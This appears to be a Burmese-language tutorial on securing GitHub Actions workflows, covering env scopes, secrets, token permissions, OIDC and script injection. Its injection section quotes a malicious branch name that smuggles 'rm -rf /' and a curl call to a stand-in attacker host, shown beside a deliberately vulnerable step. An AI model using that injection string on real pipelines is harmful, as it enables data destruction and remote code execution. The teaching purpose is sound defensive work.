


# Secure Configuration & Credential Management

Enterprise CI/CD pipelines တွေမှာ configuration values တွေကို hardcode လုပ်တာက ပေါ့ဆရာကျရာရောက်ပေမဲ့ secrets တွေ (passwords, API tokens, cloud credentials, private keys စတာတွေ) ကို hardcode လုပ်တာကတော့ ဆိုးဆိုးဝါးဝါး အမှားကြီးတစ်ခု ဖြစ်ပါတယ်။ GitHub Actions ကနေပြီးတော့ environment variables တွေ၊ encrypted secrets တွေနဲ့ OpenID Connect (OIDC) ကနေတစ်ဆင့် သက်တမ်းတို temporary credentials တွေကို ထည့်သွင်းအသုံးပြုဖို့အတွက် အလွှာစုံလင်တဲ့ security architecture တစ်ခုကို ပံ့ပိုးပေးထားပါတယ်။



---

## 1. Environment Variable Hierarchy & Scopes

Environment variables တွေကို workflow တစ်ခုရဲ့ scope သုံးခုမှာ သတ်မှတ်နိုင်ပါတယ်။ ပိုပြီး သီးသန့်ဆန်တဲ့ scope က ကျယ်ပြန့်တဲ့ scope ထက် ပိုပြီး အမြတ်ဦးစားပေး အသုံးပြုသွားမှာ ဖြစ်ပါတယ်:

```yaml
name: Variable Scope Demonstration

# 1. WORKFLOW LEVEL (Global to all jobs and steps in this file)
env:
  APP_ENV: staging
  LOG_LEVEL: info
  GLOBAL_CONFIG: enabled

jobs:
  build-and-test:
    runs-on: ubuntu-latest
    
    # 2. JOB LEVEL (Inherits workflow env, overrides collisions for this job only)
    env:
      APP_ENV: production    # Overrides workflow-level APP_ENV
      PORT: 8080

    steps:
      - uses: actions/checkout@v4

      # 3. STEP LEVEL (Overrides both workflow and job level for this single step)
      - name: Run Integration Tests with Custom Env
        env:
          PORT: 9000         # Overrides job-level PORT
          DEBUG: "true"
        run: |
          echo "APP_ENV: $APP_ENV"       # prints: production (from job level)
          echo "LOG_LEVEL: $LOG_LEVEL"   # prints: info (from workflow level)
          echo "PORT: $PORT"             # prints: 9000 (from step level)
          echo "DEBUG: $DEBUG"           # prints: true (from step level)
```

---

## 2. Dynamic Environment Variables via `$GITHUB_ENV`

တခါတလေမှာ step တစ်ခုကနေပြီး နောက်လာမယ့် steps တွေက environment variable အနေနဲ့ ဖတ်သုံးရမယ့် dynamic value တစ်ခုကို တွက်ချက်ထုတ်ပေးရတတ်ပါတယ် (ဥပမာ- Git short commit hash၊ semantic version ဒါမှမဟုတ် build timestamp စသည်ဖြင့်)။ 

`$GITHUB_ENV` ထဲကို ရေးသားလိုက်ခြင်းအားဖြင့် ထို variable ကို **ထို job ထဲရှိ နောက်လာမယ့် steps အားလုံးရဲ့** shell environment ထဲကို ထည့်သွင်းပေးလိုက်တာ ဖြစ်ပါတယ်:

```yaml
jobs:
  dynamic-vars:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Compute Dynamic Metadata
        run: |
          # 1. Single-line variable assignment
          echo "SHORT_SHA=$(git rev-parse --short HEAD)" >> $GITHUB_ENV
          echo "BUILD_DATE=$(date -u +'%Y-%m-%d')" >> $GITHUB_ENV
          echo "VERSION=$(cat package.json | grep version | cut -d '\"' -f 4)" >> $GITHUB_ENV

          # 2. Multiline variable assignment using delimiter EOF
          echo "RELEASE_NOTES<<EOF" >> $GITHUB_ENV
          echo "Changelog for commit $(git rev-parse --short HEAD):" >> $GITHUB_ENV
          git log -3 --pretty=format:"- %s (%an)" >> $GITHUB_ENV
          echo "" >> $GITHUB_ENV
          echo "EOF" >> $GITHUB_ENV

      - name: Use Dynamic Variables in Downstream Step
        run: |
          echo "Container Image Tag: myapp:${{ env.VERSION }}-${{ env.SHORT_SHA }}"
          echo "Build Date: $BUILD_DATE"
          echo "Release Notes:"
          echo "$RELEASE_NOTES"
```

<Callout type="warning" title="Security Warning: Never write untrusted input directly to $GITHUB_ENV">
ယုံကြည်စိတ်ချရမှုမရှိတဲ့ user input တွေ (ဥပမာ- issue titles ဒါမှမဟုတ် PR comments တွေ) ကို parsing လုပ်နေမယ်ဆိုရင် တိုက်ခိုက်သူတွေက အန္တရာယ်ရှိတဲ့ delimiter boundaries တွေကို inject လုပ်တာ ဒါမှမဟုတ် `LD_PRELOAD` သို့မဟုတ် `PATH` လိုမျိုး system variables တွေကို override လုပ်တာတွေ လုပ်ဆောင်နိုင်ပါတယ်။ ဒါကြောင့် input တွေကို အမြဲတမ်း sanitize လုပ်ပါ ဒါမှမဟုတ် step-level `env:` blocks တွေကနေတစ်ဆင့်ပဲ ပို့ဆောင်ပေးပါ။
</Callout>

---

## 3. GitHub Default Context & Built-in Variables

GitHub Actions က `${{ <context> }}` နဲ့ predefined environment variables တွေကနေတစ်ဆင့် ဝင်ရောက်အသုံးပြုလို့ရတဲ့ runtime contexts တွေကို အလိုအလျောက် ပံ့ပိုးပေးထားပါတယ်:

| Context Expression | Predefined Env Var | Description | Example Value |
| :--- | :--- | :--- | :--- |
| `${{ github.sha }}` | `GITHUB_SHA` | Full 40-character commit SHA | `a3b8d9f1c7e...` |
| `${{ github.ref_name }}` | `GITHUB_REF_NAME` | Branch name or Tag name | `main` or `v1.4.0` |
| `${{ github.repository }}` | `GITHUB_REPOSITORY` | Owner and repository name | `octocat/hello-world` |
| `${{ github.actor }}` | `GITHUB_ACTOR` | Username that initiated the run | `monalisa` |
| `${{ github.event_name }}` | `GITHUB_EVENT_NAME` | Event that triggered workflow | `push`, `pull_request` |
| `${{ runner.os }}` | `RUNNER_OS` | Operating system of the runner | `Linux`, `Windows`, `macOS` |
| `${{ runner.temp }}` | `RUNNER_TEMP` | Path to temporary directory | `/tmp/run` |

---

## 4. Encrypted Secrets Management

Secrets တွေကို GitHub မှာ မသိမ်းဆည်းခင် libsodium sealed boxes ကိုသုံးပြီး encrypt လုပ်ထားပါတယ်။ Workflow execution လုပ်နေတုန်း runner တွေဆီကို ပေးပို့မှသာ decryption လုပ်ပေးပါတယ်။

### Secret Scopes

```
Organization Secrets (Enterprise/Team-wide: shared across multiple repositories)
       └── Repository Secrets (Specific to one repository: e.g. NPM_TOKEN, SLACK_WEBHOOK)
              └── Environment Secrets (Scoped to environments like 'production' or 'staging')
```

### Adding Secrets in GitHub UI
1. GitHub ပေါ်ရှိ ကိုယ့် repository ထဲကို သွားပါ။
2. **Settings** → **Secrets and variables** → **Actions** ကို သွားပါ။
3. **New repository secret** သို့မဟုတ် **New environment secret** ကို နှိပ်ပါ။

```yaml
jobs:
  publish:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Authenticate to Container Registry
        uses: docker/login-action@v3
        with:
          registry: ghcr.io
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}

      - name: Deploy with Secret Injection
        env:
          DATABASE_URL: ${{ secrets.PROD_DATABASE_URL }}
          API_KEY: ${{ secrets.STRIPE_SECRET_KEY }}
        run: |
          # Secrets are automatically masked by GitHub's log scrubber:
          # Printing $API_KEY will produce '***' in logs!
          echo "Running database migration..."
          npm run db:migrate
```

### Log Masking & Secrets Protection
GitHub Actions runner က logs တွေကို print ထုတ်တဲ့အခါ လူသိများပြီးသား secrets တွေကို `***` နဲ့ အလိုအလျောက် အစားထိုးပေးပါတယ်။ အဲဒီအပြင် mask လုပ်ရမယ့် values တွေကို ကိုယ်တိုင်လည်း manual ထည့်သွင်းနိုင်ပါတယ်:

```yaml
- name: Mask sensitive generated token
  run: |
    DYNAMIC_TOKEN=$(./generate-temp-token.sh)
    echo "::add-mask::$DYNAMIC_TOKEN"
    echo "GENERATED_TOKEN=$DYNAMIC_TOKEN" >> $GITHUB_ENV
```

---

## 5. Principle of Least Privilege: `GITHUB_TOKEN` Permissions

Workflow တိုင်းမှာ အလိုအလျောက်ရရှိနိုင်တဲ့ `${{ secrets.GITHUB_TOKEN }}` တစ်ခု ပါဝင်ပါတယ်။ ပုံမှန်အားဖြင့် repository settings တွေအရ အလွန်အကျွံ permissions တွေ ပေးထားတတ်ပါတယ် (code, PRs, packages, issues တွေကို read/write လုပ်နိုင်တဲ့ access တွေ ပါဝင်နေတတ်ပါတယ်)။

Least-privilege security ကို လိုက်နာနိုင်ဖို့ workflow ဒါမှမဟုတ် job level မှာ explicit `permissions:` တွေကို အမြဲတမ်း ကြေညာပေးပါ:

```yaml
name: Safe PR Triage

on:
  pull_request:
    types: [opened]

# Lock down all permissions by default:
permissions:
  contents: read          # Read repo code
  pull-requests: write    # Post comments on PRs
  issues: none
  packages: none
  id-token: none

jobs:
  comment-pr:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/github-script@v7
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
          script: |
            github.rest.issues.createComment({
              issue_number: context.issue.number,
              owner: context.repo.owner,
              repo: context.repo.repo,
              body: '👋 Thank you for opening this Pull Request! Our CI checks are now running.'
            });
```

---

## 6. OpenID Connect (OIDC): Keyless Cloud Authentication

သက်တမ်းရှည် cloud credentials တွေ (ဥပမာ- `AWS_ACCESS_KEY_ID` နဲ့ `AWS_SECRET_ACCESS_KEY`) ကို GitHub Secrets ထဲမှာ သိမ်းဆည်းထားခြင်းက ပြင်းထန်တဲ့ security risk တစ်ခုကို ဖြစ်စေပါတယ်- တကယ်လို့ credentials တွေ ပေါက်ကြားသွားခဲ့ရင် manual revocation မလုပ်မချင်း တိုက်ခိုက်သူတွေအနေနဲ့ cloud ကို အမြဲတမ်းဝင်ရောက်နိုင်မယ့် access ကို ရရှိသွားမှာ ဖြစ်ပါတယ်။

**OpenID Connect (OIDC)** ကို အသုံးပြုခြင်းအားဖြင့် GitHub က identity provider တစ်ခုအနေနဲ့ ဆောင်ရွက်ပေးပါတယ်။ ကိုယ့်ရဲ့ cloud provider (AWS, GCP, Azure ဒါမှမဟုတ် HashiCorp Vault) က GitHub Actions ဆီက cryptographic tokens တွေကို verify လုပ်ပြီး **temporary credentials တွေ (၁၅ မိနစ်ကနေ မိနစ် ၆၀ အတွင်း သက်တမ်းရှိသော)** ကို ထုတ်ပေးပါတယ်။



### Complete AWS OIDC Setup Example

```yaml
name: Deploy to AWS with Keyless OIDC

on:
  push:
    branches: [ main ]

# CRITICAL: id-token: write allows requesting the OIDC JWT token
permissions:
  id-token: write
  contents: read

jobs:
  deploy-aws:
    runs-on: ubuntu-latest
    steps:
      - name: Check out repository
        uses: actions/checkout@v4

      # Connect to AWS using IAM Role ARN without storing ANY secret keys!
      - name: Configure AWS Credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsDeploymentRole
          aws-region: us-east-1
          audience: sts.amazonaws.com

      - name: Deploy CloudFormation / S3 Sync
        run: |
          aws sts get-caller-identity
          aws s3 sync ./dist s3://my-production-app-bucket/ --delete
          echo "✅ Securely deployed without static cloud keys!"
```

---

## 7. Preventing Script Injection Attacks

ယုံကြည်စိတ်ချရမှုမရှိတဲ့ context data တွေ (ဥပမာ- `${{ github.event.issue.title }}` ဒါမှမဟုတ် `${{ github.head_ref }}`) ကို `run:` bash scripts တွေထဲမှာ တိုက်ရိုက် interpolation လုပ်လိုက်တဲ့အခါ အရေးကြီးတဲ့ security vulnerability တစ်ခု ဖြစ်ပေါ်လာတတ်ပါတယ်:

```yaml
# ❌ DANGEROUS: Remote Code Execution / Command Injection vulnerability!
# If an attacker opens a PR with branch name: "feature; rm -rf /; curl http://evil.com"
- name: Vulnerable Step
  run: |
    echo "Working on branch: ${{ github.head_ref }}"

# ✅ SECURE: Pass context values through step-level environment variables
- name: Secure Step
  env:
    BRANCH_NAME: ${{ github.head_ref }}
  run: |
    echo "Working on branch: $BRANCH_NAME"
```

---

## Summary

- Configuration သန့်ရှင်းမှုရှိစေရန် **Environment Variable Scopes** (`workflow` > `job` > `step`) ကို အသုံးပြုပါ။
- နောက်ဆက်တွဲ steps တွေဆီကို dynamically generate လုပ်ထားတဲ့ metadata တွေ ပို့ပေးဖို့ `$GITHUB_ENV` ကို ရေးသားပါ။
- Sensitive data တွေကို **Repository & Environment Secrets** နဲ့ စီမံခန့်ခွဲပါ; GitHub က build logs တွေထဲက သိပြီးသား secrets တွေကို အလိုအလျောက် ဖျောက်ပေးပါတယ်။
- explicit `permissions:` blocks တွေကို အသုံးပြုပြီး `GITHUB_TOKEN` ကို အမြဲတမ်း ကန့်သတ်ချုပ်ချယ်ပါ (Least Privilege)။
- Modern DevOps မှာတော့ cloud providers တွေနဲ့ **Keyless OpenID Connect (OIDC)** authentication ကို အသုံးပြုပြီး သက်တမ်းရှည် static credentials တွေကို ဖယ်ရှားပစ်ကြပါတယ်။
- ကိုက်ခိုက်ခံရနိုင်ခြေရှိတဲ့ command injection တွေ မဖြစ်အောင် untrusted GitHub context variables တွေကို inline bash template strings တွေအနေနဲ့ တိုက်ရိုက်မသုံးဘဲ `env:` blocks တွေကနေတစ်ဆင့် အမြဲတမ်း ပို့ဆောင်ပေးပါ။